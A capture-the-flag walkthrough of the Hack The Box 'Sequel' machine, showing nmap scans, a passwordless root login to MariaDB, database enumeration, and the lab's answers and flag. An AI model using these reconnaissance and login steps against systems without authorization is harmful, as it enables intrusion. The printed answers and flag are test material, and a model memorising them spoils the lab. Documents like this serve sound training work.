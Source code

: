 #### Guide on SEQUEL CTF Machine

##### These are the default databases that are created automatically to support the database management system's functionality:

##### mysql: The mysql database contains system tables that store metadata and access control information. It is used for user and privilege management. 

##### information_schema: The information_schema database provides information about the database server and its schemas, tables, columns, and more. 

##### performance_schema: The performance_schema database is used for performance monitoring and diagnostics. 

##### test: The test database is for testing and experimentation.

1. During our scan, which port do we find serving MySQL?<br>
3306

	- the -F flag is used for fast scan mode. It scans the top 100 most commond tcp/udp ports.
	```bash
	nmap -F 10.129.144.109    
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 14:55 PST
	Nmap scan report for 10.129.144.109
	Host is up (0.24s latency).
	Not shown: 99 closed tcp ports (conn-refused)
	PORT     STATE SERVICE
	3306/tcp open  mysql

	Nmap done: 1 IP address (1 host up) scanned in 1.29 seconds
	```

2. What community-developed MySQL version is the target running?<br>
mariadb
	- -sC flag is used to define a script along the nmap
	```bash
	nmap -F -sC 10.129.144.109
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 15:05 PST
	Stats: 0:00:36 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
	NSE Timing: About 98.40% done; ETC: 15:06 (0:00:01 remaining)
	Nmap scan report for 10.129.144.109
	Host is up (0.24s latency).
	Not shown: 99 closed tcp ports (conn-refused)
	PORT     STATE SERVICE
	3306/tcp open  mysql
	| mysql-info: 
	|   Protocol: 10
	|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
	|   Thread ID: 73
	|   Capabilities flags: 63486
	|   Some Capabilities: LongColumnFlag, Speaks41ProtocolNew, Speaks41ProtocolOld, FoundRows, Support41Auth, InteractiveClient, SupportsLoadDataLocal, IgnoreSigpipes, SupportsTransactions, DontAllowDatabaseTableColumn, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, ODBCClient, SupportsCompression, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
	|   Status: Autocommit
	|   Salt: Y<`NDL0H]xfu<fmoiBK4
	|_  Auth Plugin Name: mysql_native_password

	Nmap done: 1 IP address (1 host up) scanned in 45.44 seconds
	```

3. When using the MySQL command line client, what switch do we need to use in order to specify a login username?<br>
-u

	- SHOW databases; - to show all databases
	- USE database_name - to use a database
	- SHOW tables - to show all tables of the selected database
	- SELECT * FROM table_name - to show all the contents of a table

	```bash
	mysql -h 10.129.144.109 -u root
	Welcome to the MariaDB monitor.  Commands end with ; or \g.
	Your MariaDB connection id is 142
	Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

	Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

	Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

	MariaDB [mysql]> SHOW databases;
	+--------------------+
	| Database           |
	+--------------------+
	| htb                |
	| information_schema |
	| mysql              |
	| performance_schema |
	+--------------------+
	4 rows in set (0.241 sec)

	MariaDB [mysql]> USE htb;
	Database changed
	MariaDB [htb]> SHOW tables;

	+---------------+
	| Tables_in_htb |
	+---------------+
	| config        |
	| users         |
	+---------------+
	2 rows in set (0.244 sec)

	MariaDB [htb]> SELECT * FROM config;
	+----+-----------------------+----------------------------------+
	| id | name                  | value                            |
	+----+-----------------------+----------------------------------+
	|  1 | timeout               | 60s                              |
	|  2 | security              | default                          |
	|  3 | auto_logon            | false                            |
	|  4 | max_size              | 2M                               |
	|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
	|  6 | enable_uploads        | false                            |
	|  7 | authentication_method | radius                           |
	+----+-----------------------+----------------------------------+
	7 rows in set (0.241 sec)
	```

4. Which username allows us to log into this MariaDB instance without providing a password?<br>
root

5. In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?<br>
&ast;

6. In SQL, what symbol do we need to end each query with?<br>
;

7. There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?<br>
htb
	- from the info that we got, htb is the only database that is not a default database of MySQL, so we can assume that the flag is in there
	
8. Submit root flag<br>
7b4bec00d1a39e3dd4e021ec3d915da8
	
	
	
	

